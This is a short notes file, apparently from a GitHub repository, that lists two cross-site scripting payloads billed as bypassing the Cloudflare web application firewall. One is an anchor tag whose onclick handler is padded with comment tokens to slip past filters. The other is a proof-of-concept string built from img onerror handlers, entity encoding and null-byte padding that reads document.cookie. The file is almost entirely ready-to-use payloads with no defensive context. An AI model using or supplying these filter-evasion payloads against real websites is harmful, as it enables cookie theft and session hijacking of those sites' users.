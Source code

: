 # NOTAS

XSS bypass Cloudflare WAF 🧱🔥😈
Payload:
```txt
<a href="#" onclick="var w = window.open/**/(/**/); w.document.write/**/('Hello, world!'/**/);
w.document.close/**/(/**/); w.print/**/(/**/); alert/**/('B1P4$$'/**/);">Click me</a>
```

XSS Bypass Waf Cloudflare ;) Poc 
```txt
"/***/&gt;/***/<img onerror="alert(document.cookie)/***/" src="P"/> "/**/>/**/<img src=P onerror=alert&#0000000040
document.cookie)/**/>"&gt;00%00%00<img onerror="alert(document.cookie)" src="P"/>00%00
```
